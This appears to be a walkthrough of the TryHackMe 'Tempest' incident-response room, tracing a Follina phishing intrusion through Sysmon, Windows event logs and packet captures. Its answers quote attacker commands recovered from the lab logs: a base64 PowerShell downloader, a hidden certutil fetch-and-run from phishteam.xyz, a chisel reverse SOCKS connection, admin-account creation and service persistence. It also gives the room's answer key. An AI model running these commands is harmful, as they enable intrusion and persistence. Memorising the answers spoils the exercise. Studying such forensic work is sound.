Hi, this is a writeup for room named Tempest in SOC Level 1 path on tryhackme. If you're stuck and need help, you've found them. Enjoy!

In Task 3 we have first three question that needs to be answered. They refer to file hashes that we need to find.
Open powershell in your deployed machine. Now we need to navigate to *Incident Files* directory. To do this type in the powershell: *cd Desktop/'Incident Files'*. To find hashes we need to type: *Get-FileHash -Algorithm SHA256* and file name.



After doing it, answer questions in the task.

Now we need to do one more important thing. I'm talking about parse sysmon.evtx file format into csv. To do so follow instruction in task 3. 
Now you should see *sysmon.csv* file in the Incident Response folder as shown below:



We should also add parsed sysmon.csv file into Timeline Explorer as is shown in the room instruction. After doing it we got clear view of the log file.



There is one more important thing to do, we need .xml log file, to open logs in SysmonView. To do so we need to open log file in the Event Viewer by clicking *Open Saved Logs*.



Then choose log file *sysmon* in the Incident Response folder and click *open*.
Now when we have our logs loaded into Event Viewer, we need to extract them in xml format.
Click *Save All Events As...*



Then choose folder and a .xml file extension as shown below.



Click *Save* and in the pop-up window about information click ok.
Then import *sysmon.xml* file into SysmonView as shown in the room task 3 instruction.

Let's go into task 4.
Now we need to investigate a Critical alert. From description in the room we know that there was a malicious file with .doc extension downloaded via chrome.exe. Then the file executed a chain of commands to attain code execution.

The guide tells us to start with events generated by Sysmon, use tools that was mentioned earlier. Also we need to follow child processes of WinWord.exe, filter them by ParentProcessID or ProcessID to correlate ther relationship of each process. Also focus on Sysmon events Creation (ID 1) and DNS Queries (ID 22) to correlate activity generated by a malicious document.
Let's dive into it.

**Question 1: The user of this machine was compromised by a malicious document. What is the file name of the document?**

Open Event viewer with our imported earlier sysmon log. From the event description we know that malicious file was downloaded from the Internet. That means we need to filter our log file for *File stream creation* event with id *15*.



After doing it, we got just few log entries filtered for us. Begin with the earliest one, we found a file name:



**Answer: free_magicules.doc**

**Question 2: What is the name of the compromised user and machine?
*Format: username-machine name***
To answer this question scroll down the same log entry we found before.



**Answer: benimaru-TEMPEST**

**Question 3: What is the PID of the Microsoft Word process that opened the malicious document?**
We need to filter our log for Process Creation which has EventID 1.



Then we use *Find...* for WINWORD.EXE, because malicious file has .doc extension. It indicates that it would be open in a microsoft word.



And there it is in the first record found, the answer we need.
**Answer: 496**

**Question 4: Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?**

To answer this question open our pcap file in Incident Files folder.
In Wireshark use filter *http.request.method\==GET* to filter all web traffic that may be used for file download.
After doing so there is one record with doc file that catches eye:



**Answer: 192.71.199.191**

**Question 5: What is the base64 encoded string in the malicious payload executed by the document?**

This one was a little tricky and after further filtering network traffic in Wireshark i've noticed that it must be traffic from remote server used for code execution. Then i've decided go back to sysmon logs in Event Viewer and i went through it looking specifically for Process Creation record with ID 1. I've found record with an encrypted payload:



**Answer: JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg\==**

**Question 6: What is the CVE number of the exploit used by the attacker to achieve a remote code execution?**

From log found for previous question, i had noticed that process used for command execution is named msdt.exe.



After googling it, i found numerous articles about *Follina* vulnerability in Microsoft Windows Diagnostic Tool that allows RCE (Remote Code Execution).



**Answer: 2022-30190**

Let's go into Task5.
In the guide section we can see few tips. We need to look into autostart executions with explorer.exe as parent process ID. Also child processes of it and we should look into Process Creation and File Creation events.

**Question 1: The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?**
Go back to Event Viewer and filter for File Created with event ID 11. From the base64 encrypted payload, after decoding it in CyberChef, we know that the file download is named *update.zip*. We gonna use this knowledge to look for specific file in the logs with *Find...*. 



And there it is, the full path.
**Answer: C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup**

**Question 2: The implemented payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?**

To do this we need to parse our windows.evtx file into csv format and put it into timeline explorer to find event id correspoding to successful logon event which is *4624*.
We need to run EvtxECmd.exe program once again but this time with windows.evtx file.
After that put windows.csv into Timeline Explorer and search for specific *4624* id in the Event Id Column. Also in the *Payload Data1* column we should add *Target: TEMPEST\benimaru* to narrow our searches.





After doing it we know exact time when user benimaru was logging in. With this knowledge we can narrow down our searches in the Event Viewer to find executed payload.
On 17:15:10 i found suspicious command ran using powershell.



**Answer: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split 'http\://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe**

**Question 3: Based on sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?**

In the Timeline Explorer find *Executable Info* column and put there name of the malicious file that was downloaded.



Then find *Payload Data3* column and in the second record from below we can find our SHA256 hash.



**Answer: CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8**

**Question 4: The stage 2 payload downloaded establishes a connection to a c2 server. What is the domain and port used by the attacker?**

Now it's time for Wireshark. Filter the traffic by adding a query: *http.request.method\==GET and ip.dst_host\==167.71.222.162*.



And there is the c2 host.
**Answer: resolvecyber.xyz:80**

Task 6
Now we gonna deep dive into pcap traffic file provided in this room. 
**Question 1: What is the URL of the malicious payload embedded in the document?**
As for now we know that there are two malicious host *phishteam.xyz* and *resolvecyber.xyz*. The second one is used for Command and Control. In Wireshark we run a query: *http.host matches "phishteam.xyz"*. We can see that this is the host from whom malicious files where downloaded. We can also noticed that *index.html* file was accessed by a targeted machine.



**Answer: http\://phishteam.xyz/02dcf07/index.html**

**Question 2: What is the encoding used by the attacker on the c2 connection?**
Now replace domain in our query for *resolvecyber.xyz* we can se bunch of encrypted messages. After grabbing one of them and putting into Cyberchef we know that the attacker used base64 for command encryption.



**Answer: base64**

**Question 3: The malicious c2 binary sends a payload using a parameter that contains the executed command results. What is the parameter used by the binary?**
No explanation needed.
**Answer: q**

**Question 4: The malicious c2 binary connects to a specific URL to get the command to be executed. What is the URL used by the binary?**
**Answer: /9ab62b5**

**Question 5: What is the HTTP method used by the binary?**
**Answer: GET**

**Question 6: Based on the user agent, what programming language was used by the attacker to compile the binary?**
Click on the first packet and then Follow TCP Stream. 



**Answer: nim**

Task 7
**Question 1: The attacker was able to discover a sensitive file inside the machine of the user. What is the password discovered on the aforementioned file?**

Sticking to Wireshark and filtering traffic from *resolvecyber.xyz* host, i had decoded some payloads and found one where plaintext password was.



**Answer: infernotempest**

**Question 2: The attacker then enumerated the list of listening ports inside the machine. What is the listening port that could provide a remote shell inside the machine?**

After long time decoding every single payload, finally i had found the one.
And after some googling ports, i've found port 5985 is responsible for remote connecting via WinRM.
**Answer: 5985**

**Question 3: The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection?**
During the decoding i found another file that was downloaded. It's ch.exe. Then i've searched for it in Timeline explorer and i've found command used.



**Answer: C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks**

**Question 4: What is the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection?**



**Answer: 8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451**

**Question 5: What is the name of the tool used by the attacker based on the SHA256 hash? Provide the answer in lowercase.**
After putting hash value found for the previous question in virutotal, i had found that the tool used by the attacker is called chisel.
**Answer: chisel**

**Question 6: The attacker then used the harvested credentials from the machine. Based on the succeeding process after the execution of the socks proxy, what service did the attacker use to authenticate?**
We know from the logs that chisel was ran at 17:18:48 and just after that at 17:19:06 process is created with wsmprovhost.exe running. After googling it i had found that it is a service used by WinRM.
**Answer: winrm**

Task 8
Based on the collected findings, the attacker gained a stable shell through a reverse socks proxy.

**Question 1: After discovering the privilege of the current user,. the attacker then downloaded another binary to be used for privilege escalation. What is the name and the SHA256 hash of the binary?**
Going through logs i had found another file downloaded.



Now we need to have in mind that all processes and execution will be through WinRM and that said we should look for wsmprovhost.exe process in log files.



**Answer: spf.exe,8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D**

**Question 2: Based on the SHA256 hash of the binary, what is the name of the tool used?**
Check the hash value in virustotal.
**Answer: printspoofer**

**Question 3: The tool exploits a specific privilege owned by the user. What is the name of the privilege?**
After googling printspoofer i found the answer.
**Answer: SeImpersonatePrivilege**

**Question 4: Then, the attacker executed the tool with another binary to establish a c2 connection. What is the name of the binary?**



**Answer:final.exe**

**Question 5: The binary connects to a different port from the first c2 connection. What is the port used?**

We need to go back to Wireshark, add query with a destination IP *ip.dst == 167.71.222.162*, then in the middle tab find *Destination Port* and right click it and apply as a column. Now we see that the second destination port is 8080.



**Answer: 8080**

Task 9
Now, the attacker has gained administrative privileges inside the machine. Find all persistence techniques used by the attacker.
In addition, the unusual executions are related to the malicious C2 binary used during privilege escalation.

**Question 1: Upon achieving SYSTEM access, the attacker then created two users. What are the account names?**
We need to go back to our sysmon.csv log file and filter for Event ID 1 and further in Executable Info column write "add" which is part of the command for adding users.



**Answer: shion,shuna**

**Question 2: Prior to the successful creation of the accounts, the attacker executed commands that failed in the creation attempt. What is the missing option that made the attempt fail?**



**Answer: /add**

**Question 3: Based on windows event logs, the accounts were successfully created. What is the event ID that indicates the account creation activity?**
**Answer: 4720**

**Question 4: The attacker added one of the accounts in the local administrator's group. What is the command used by the attacker?**



**Answer: net localgroup administrators /add shion**

**Question 5: Based on windows event logs, the account was successfully added to a sensitive group. What is the event ID that indicates the addition to a sensitive local group?**
**Answer: 4732**

**Question 6: After the account creation, the attacker executed a technique to establish persistent administrative access. What is the command executed by the attacker to achieve this?**
When going through the log file i had found sc.exe service being used, i filtered it and there was a command combining it with final.exe binary used before by threat actor.



**Answer: C:\Windows\system32\sc.exe \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto**

The End.